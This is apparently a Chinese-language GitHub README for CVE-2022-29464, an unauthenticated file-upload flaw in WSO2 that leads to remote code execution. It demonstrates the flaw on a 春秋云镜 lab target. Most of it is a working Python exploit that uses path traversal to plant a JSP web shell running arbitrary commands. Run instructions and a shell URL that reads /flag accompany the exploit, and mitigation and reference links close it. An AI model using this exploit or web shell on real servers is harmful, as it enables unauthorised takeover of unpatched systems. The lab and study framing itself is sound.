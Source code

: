 # CVE-2022-29464

## Description

WSO2文件上传漏洞(CVE-2022-29464)是 Orange Tsai 发现的 WSO2 上的严重漏洞。

该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。

## Explanation of exploit

具体分析看这里 https://github.com/hakivvi/CVE-2022-29464

1. 这里使用春秋云镜靶标演示，春秋云镜靶标地址：https://yunjing.ichunqiu.com/cve/detail/734
2. 运行 PoC 脚本，上传 JSP 文件，成功获取 RCE; PoC 脚本方法为：`python3 exploit.py https://host:9443/ ArbitraryShellName.jsp`
3. 将host替换为目标，如 `python .\main.py https://eci-2zee9fyka677nqjaa6he.cloudeci1.ichunqiu.com:9443 shell.jsp`
    ![](images/CVE-2022-29464-1.png)
4. 打开浏览器访问目标，成功获取 RCE `https://eci-2zee9fyka677nqjaa6he.cloudeci1.ichunqiu.com:9443/authenticationendpoint/shell.jsp?cmd=cat+%2Fflag`
5. 获取 flag
    ![](images/CVE-2022-29464-2.png)

## PoC

```python
## exploit.py

import requests, urllib3, sys

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

if len(sys.argv) != 3:
    print(f"Usage: python3 {sys.argv[0]} https://host shell.jsp")
    exit()

host, file = sys.argv[1:]
shell = """<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>"""

files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/{file}": shell}
response = requests.post(f'{host}/fileupload/toolsAny', files=files, verify=False)
print(f"shell @ {host}/authenticationendpoint/{file}")
```


## Mitigation

- https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2021-1738


## Refer

- https://github.com/hakivvi/CVE-2022-29464
- https://yunjing.ichunqiu.com/cve/detail/734
